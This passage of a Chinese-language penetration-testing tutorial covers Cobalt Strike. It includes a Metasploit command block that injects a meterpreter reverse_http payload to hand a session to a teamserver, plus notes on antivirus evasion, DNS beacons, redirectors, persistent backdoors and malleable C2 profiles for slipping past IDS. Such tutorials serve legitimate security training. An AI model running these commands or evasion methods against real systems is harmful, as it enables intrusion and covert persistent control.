 [![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f0db8409acaf71689937d275afc62bc540be4a56.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f0db8409acaf71689937d275afc62bc540be4a56.png)  
在teamserver服务器上派生会话给cs

```php
use exploit/windows/local/payload_inject
set session 1 此时的会话应该与前面的对应
set payload windows/meterpreter/reverse_http
set lhsot 192.168.0.128 
set lport 8888
set DisablePayloadHandler true
exploit -j
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fa5eb49b6d0bc59699d48bd92f96e2629ec26f5e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fa5eb49b6d0bc59699d48bd92f96e2629ec26f5e.png)  
成功派生会话，设置监听器时要注意端口与teamserver设置的一样  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-79a74894f5bf8a7919b5d50d90d1182daf26d1bb.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-79a74894f5bf8a7919b5d50d90d1182daf26d1bb.png)

8、Cobalt Strike的免杀
------------------

由于现在对安全越来越重视，很多产商对各种有攻击性的代码与工具进行了查杀，刚刚使用cobaltstrike生成的payload，很有可能被查杀，免杀技术在我们进行渗透过程中是必不可少的，如果一上传到别人服务器上就给杀了，那不是一件很尴尬的事嘛。我这个菜鸡还不怎么会做免杀，而且在攻防社区已经有一位大佬连续写了几篇免杀文章，请大家参考：  
<https://forum.butian.net/share/366>  
<https://forum.butian.net/share/368>  
<https://forum.butian.net/share/369>  
<https://forum.butian.net/share/370>  
<https://forum.butian.net/share/371>  
<https://forum.butian.net/share/372>

9、Cobalt Strike使用重定器与DNS beacon的原理分析
------------------------------------

**使用重定器的原因主要有：**  
1.保护服务器地址，并作为攻击者，它也是一个很好的安全操作。  
2.给予了一些很好的适应能力，假如你们的工具中有一两个堵塞了没有大不了的，也可以进行通信。  
**使用DNS beacon 的原因：**  
dns木马因为隐蔽性好，在受害者不会开放任何端口 可以规避防火墙协议，走的是53端口 (服务器)，防火墙不会拦截，缺点响应慢。  
在这一篇文章我已经对这两个做了详细的介绍请大家参考：<https://forum.butian.net/share/380>

10、cobaltstrike可持续后门的使用
-----------------------

为了能够持续的控制目标主机，往往我们都会去制作持续后门  
请参考：[https://www.sohu.com/a/334705180\_354899](https://www.sohu.com/a/334705180_354899)

11、Cobalt Strike malleable C2的使用
--------------------------------

可以通过修改c2配置文件，更改beacon中 payload的属性、行为、通过框架修改这些配置文件的属性，伪造正常的通信的流量，实现一些ids 入侵检测防火墙的绕过。现在成熟的ids检测工具 都可以检测出Cobalt Strike 这些著名得商业渗透测试工具。在一些很严格的环境中，被检测出来基本上就很难继续深入进行渗透。  
请参考：[https://blog.csdn.net/weixin\_43804472/article/details/84754786](https://blog.csdn.net/weixin_43804472/article/details/84754786)
